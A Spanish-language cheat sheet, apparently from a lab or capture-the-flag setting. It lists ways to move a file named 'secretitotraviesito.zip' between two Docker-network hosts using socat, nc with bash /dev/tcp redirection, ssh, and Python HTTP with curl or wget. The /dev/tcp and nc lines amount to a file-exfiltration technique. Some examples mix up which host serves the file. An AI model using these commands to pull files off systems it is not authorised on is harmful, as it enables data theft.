 ### 1. **Utilizando `socat` 
`Socat` es una herramienta similar a `netcat` y suele estar instalada en muchos sistemas. Puedes probar con `socat` de la siguiente manera:

#### En el servidor (172.17.0.1):
```bash
socat TCP-LISTEN:1234,fork FILE:secretitotraviesito.zip
```

#### En el cliente (172.17.0.3):
```bash
socat FILE:secretitotraviesito.zip TCP:172.17.0.1:1234
```

**Explicación:**
- El comando en el servidor escucha en el puerto `1234` y recibe los datos, redirigiéndolos al archivo `secretitotraviesito.zip`.
- El comando en el cliente transfiere el archivo `secretitotraviesito.zip` al servidor a través del puerto `1234`.

### 2. **Utilizando `bash` (por ejemplo, con redirección de sockets)**
Si no tienes herramientas adicionales, puedes usar bash y algunas redirecciones. Aquí hay un enfoque más rudimentario usando `bash` y `exec`:

#### En el servidor (172.17.0.1):
```bash
nc -lvp 1234 > secretitotraviesito.zip
```

#### En el cliente (172.17.0.3):
```bash
exec 3<>/dev/tcp/172.17.0.1/1234
cat secretitotraviesito.zip >&3
```

**Explicación:**
- En el cliente, la redirección `exec 3<>/dev/tcp/172.17.0.1/1234` establece una conexión TCP hacia el servidor.
- `cat secretitotraviesito.zip >&3` envía el archivo a través de esa conexión.

Este método no requiere instalaciones adicionales, pero depende de que el sistema soporte la funcionalidad de `/dev/tcp` (que está habilitada en la mayoría de distribuciones de Linux).

### 3. **Usando `dd` y `ssh` (si tienes acceso SSH al servidor)**
Si tienes acceso SSH a ambas máquinas, puedes usar `ssh` junto con `dd` para transferir archivos entre ellas.

#### En el cliente (172.17.0.3):
```bash
dd if=secretitotraviesito.zip | ssh usuario@172.17.0.1 'dd of=secretitotraviesito.zip'
```

**Explicación:**
- El comando `dd` lee el archivo `secretitotraviesito.zip` en el cliente y lo envía a través de `ssh` al servidor, donde otro `dd` escribe el archivo en el destino.

### 4. **Usando `tar` y `ssh` (si tienes acceso SSH)**
Otra alternativa es usar `tar` sobre SSH, que puede ser útil para comprimir el archivo y transferirlo en un solo paso:

#### En el cliente (172.17.0.3):
```bash
tar czf - secretitotraviesito.zip | ssh usuario@172.17.0.1 'tar xzf - -C /ruta/de/destino'
```

**Explicación:**
- `tar czf - secretitotraviesito.zip` comprime el archivo en el cliente y lo envía a través de `ssh` al servidor, donde se descomprime y almacena en la ruta de destino.

### 5. **Usando `python` como servidor y cliente**
Si tienes Python instalado en ambas máquinas, puedes usar Python para transferir archivos de manera sencilla. El cliente puede usar el siguiente comando:

#### En el servidor (172.17.0.1):
```bash
python3 -m http.server 1234
```

#### En el cliente (172.17.0.3):
```bash
curl -O http://172.17.0.1:1234/secretitotraviesito.zip
```

**Explicación:**
- En el servidor, `python3 -m http.server 1234` inicia un servidor HTTP en el puerto `1234`.
- En el cliente, `curl -O` descarga el archivo desde el servidor a través de HTTP.

### 6. **Usando `wget` o `curl` para transferencias HTTP**
Si tienes una pequeña infraestructura de servidor web (como `python -m http.server`), puedes usar `wget` o `curl` en el cliente para descargar el archivo.

#### En el servidor (172.17.0.1), puedes usar `python` como servidor HTTP:
```bash
python3 -m http.server 1234
```

#### En el cliente (172.17.0.3):
```bash
curl -O http://172.17.0.1:1234/secretitotraviesito.zip
```

O si prefieres `wget`:
```bash
wget http://172.17.0.1:1234/secretitotraviesito.zip
```

### 7. Estableciendo conexión TCP
Desde el host que comparte el archivo, la redirección  establece una conexión TCP hacia el servidor.
Posteriormente se envía el archivo a través de esa conexión.

#### En el servidor
```bash
nc -lvp PORT > secretitotraviesito.zip
```
#### En el cliente (172.17.0.3):
```bash
exec 3<>/dev/tcp/<IP_destino>/PORT

cat secretitotraviesito.zip >&3
```